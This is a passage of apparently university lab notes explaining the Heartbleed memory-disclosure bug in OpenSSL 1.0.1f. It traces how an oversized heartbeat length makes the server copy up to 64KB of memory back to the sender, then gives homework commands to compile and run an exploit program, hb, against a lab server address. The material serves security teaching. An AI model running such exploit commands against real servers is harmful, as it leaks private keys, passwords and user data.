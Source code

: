 ## 4. Attack scenario

```
run hb (the attacker)
=> send HEARTBEAT packet with
        message type= TLS1_HB_REQUEST
        payload length=0xffff

=> SSL server receives this packet, stores in s->s3->rrec->data[], and calls tls1_process_heartbeat(SSL *s)
        s->s3->rrec->data:
            data[0]: TLS1_HB_REQUEST
            data[1],data[2]: 0xffff

=> tsl1_process_heartbeat tries to echo the payload data in rrec->data by the amount indicated in data[1] and data[2]. It assumes the payload data starts at rrec->data[3].
      .................
      memcpy(bp, pl, payload);         // bp points to a response packet buffer
                                       // pl points to rrec->data[3]. payload=0xffff
                                       // copy 0xffff bytes from rrec->data[3] into buffer
      ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, ...);  // and send to the attacker

=> the attacker receives 0xffff bytes of the server memory starting at rrec->data[3]
```

## 5. Homework

### 1) Try `hb.c`.

```bash
$ cp ../../hb.c .
```

Move `hb.c` to `openssl-1.0.1f/demos/ssl/` directory and compile.

```bash
$ gcc  -L/home/sec11/12181879/openssl/lib  -I/home/sec11/12181879/openssl/include  -o  hb hb.c -lssl -lcrypto -ldl
```

Run server and hb.

```bash
$ ./serv
```

In another window

```bash
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 1
```
